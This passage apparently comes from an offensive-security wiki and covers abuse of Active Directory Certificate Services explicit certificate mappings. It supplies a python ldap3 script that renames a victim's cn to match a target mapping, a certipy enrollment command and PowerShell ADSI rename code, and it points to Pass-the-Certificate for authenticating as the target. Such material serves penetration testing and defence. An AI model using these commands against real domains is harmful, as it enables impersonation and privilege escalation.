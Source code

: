 In this example, the target has the explicit mapping value `X509:<I>DC=local,DC=domain,CN=$TARGET<S>CN=$TARGET.domain.local`. One must change the `cn` of the victim (in this case a user) to equal `$TARGET.domain.local`. By renaming the user, the DC will automatically change the `cn` and `name`.

::: tabs

=== UNIX-like

From UNIX-like systems, the `cn` attribute of the victim can be overwritten with the following python script to be equal to `<TARGET>.<DOMAIN>`.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "CN=<VICTIM>,CN=Computers,DC=domain,DC=local"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify_dn(
        victim_dn,
        'CN=<TARGET>.<DOMAIN>'
)

conn.unbind()
```

With [certipy](https://github.com/ly4k/Certipy), it is then possible to enroll on a certificate template using the victim credentials

```bash
certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

=== Windows

From Windows systems, with PowerShell the `cn` attribute of the victim must be overwritten to be equal to `$TARGET.domain.local`.

```powershell
$victim = [ADSI]"LDAP://CN=$VICTIM,CN=Users,DC=domain,DC=local"
$victim.Rename("CN=$TARGET.domain.local")
Get-ADUser $VICTIM
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.
